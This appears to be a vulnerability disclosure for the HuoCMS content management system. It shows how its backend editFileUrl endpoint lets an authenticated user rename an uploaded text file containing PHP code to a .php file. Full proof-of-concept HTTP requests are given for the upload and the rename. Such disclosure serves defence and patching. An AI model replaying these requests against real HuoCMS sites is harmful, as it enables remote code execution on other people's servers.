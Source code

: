 Source Code Address:  https://gitee.com/digital-flag/huocms

Tips:  This vulnerability is a backend issue. To reproduce it, you need to set up the environment, log in to the backend, obtain a token, and then use the token for invocation.

app ->controller ->backend -> AttachmentController.php:editFileUrl()

In the `editFileUrl` method, the suffix of `$newPathUrl` used in the `copy` function is not validated against a whitelist. This vulnerability can be exploited to modify the filename, as the suffix is controlled by the `suffix_url` parameter, which is controllable.


![image](https://github.com/user-attachments/assets/5cc40ef7-0d5f-4249-837f-5159475c2cee)

Step 1: Upload a file with a whitelisted suffix that contains malicious content in advance, and record the file ID at the same time.
```
POST /attachment/uploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization:  token
Content-Type: multipart/form-data; boundary=----geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Length: 581
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin.php/Index/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="type"

2
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="attachment_cate_id"

0
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="reduce_img"


------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

<?php
echo "hello word!"
?>
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9--
```
![image](https://github.com/user-attachments/assets/aef0412a-b5a5-4253-b582-61b84735ad69)


Based on the content, the ID is determined to be 67.


Step 2: Construct a request according to `editFileUrl` to rename the file with ID 67. The `copy` function in the vulnerable `editFileUrl` is invoked to rename the file associated with this ID to an illegal suffix.

```
POST /attachment/editFileUrl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: token
Content-Length: 83
Origin: http://127.0.0.1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=67&name=test&prefix_url=&suffix_url=file/20250416/test.php&description=123123123
```
![image](https://github.com/user-attachments/assets/f1dd77b0-c2ad-46aa-ae31-50da63c86375)


Note: To modify it again, you need to change the filename of `suffix_url` to bypass the `copy` function triggered by `$oldPathUrl != $newPathUrl` inside `editFileUrl`.


Access URL:  http://127.0.0.1/storage/file/20250416/test.php


![image](https://github.com/user-attachments/assets/5f1cdc2f-ef6a-459d-bdd5-7d8d7d550626)

